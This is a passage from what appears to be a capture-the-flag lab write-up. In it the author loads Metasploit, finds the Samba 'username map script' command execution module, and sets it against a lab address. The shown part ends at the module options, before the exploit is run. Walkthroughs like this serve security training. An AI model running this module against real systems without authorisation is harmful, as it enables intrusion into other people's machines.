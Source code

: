 Looks like the samba exploit will have a better chance of working.
 
## Delivery & Exploit
 
I load up metasploit:
 
``` bash
msfconsole
```
paying heed to the comment in the exploit: /usr/share/exploitdb/exploits/unix/remote/16320.rb
 
```
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
```
 
I look for the exploit:
 
``` ruby
search usermap_script
```
 
gives us the exploit:
 
```
Matching Modules
================
 
  #  Name                                Disclosure Date  Rank       Check  Description
  -  ----                                ---------------  ----       -----  -----------
  0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
 
lets configure it, and double check the options:
 
``` ruby
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set VERBOSE TRUE
show options
```
 
looks good:
 
```
Module options (exploit/multi/samba/usermap_script):
 
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
  RPORT   139              yes       The target port (TCP)
 
 
Exploit target:
 
  Id  Name
  --  ----
  0   Automatic
```
 
